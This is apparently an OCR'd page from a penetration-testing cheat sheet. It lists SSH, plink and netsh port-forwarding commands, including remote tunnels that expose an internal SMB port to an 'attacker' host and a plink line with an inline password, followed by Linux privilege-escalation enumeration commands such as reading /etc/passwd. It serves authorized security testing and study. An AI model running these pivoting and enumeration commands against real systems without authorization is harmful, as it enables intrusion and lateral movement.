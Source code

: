 ## Port Forwarding <a name="portforwarding"></a>
### Linux Machines <a name="linuxpf"></a>
```bash
# Local port forwarding
ssh -N -L 0.0.0.0:4455:10.1.1.1:445 admin@10.1.1.1

# Remote port forwarding
ssh -N -R 10.10.1.1:4455:127.0.0.1:445 attacker@10.10.1.1

# Socks5 with SSH
ssh -N -D 127.0.0.1:8888 admin@10.1.1.1
```

### Windows Machines <a name="winpf"></a>
```bash
# plink in an interactive shell
plink.exe -ssh -L 0.0.0.0:4444:10.1.1.1:445 admin@10.10.1.1
plink.exe -ssh -R 10.10.1.1:4444:127.0.0.1:445 attacker@10.10.1.1
plink.exe -ssh -D 127.0.0.1:8080 admin@10.10.1.1

# plink in non interactive shell
cmd.exe /c echo y | plink.exe -ssh -l admin -pw password -R 10.10.1.1:4444:127.0.0.1:445 attacker@10.10.1.1

# netsh local port forwarding
netsh interface portproxy add v4tov4 listenaddress=10.1.1.1 listenport:4444 connectaddress:10.1.1.1 connectport:3306
netsh advfirewall firewall add rule name="4444_to_3306" protocol=TCP dir=in localip=127.0.0.1 localport=3306 action=allow
```

## Linux Privilege Escalation <a name="linuxprivesc"></a>
### System Enumeration <a name="linuxenum"></a>
#### system
```bash
# OS version
uname -a
lsb_release -a
cat /etc/issue

# Environment
env

# Hostname
hostname
```
#### users and groups
```bash
# Current user and groups
whoami
id

# All users and groups
cat /etc/passwd
cat /etc/group
```
#### network
```bash
# IP
ifconfig
ip a
```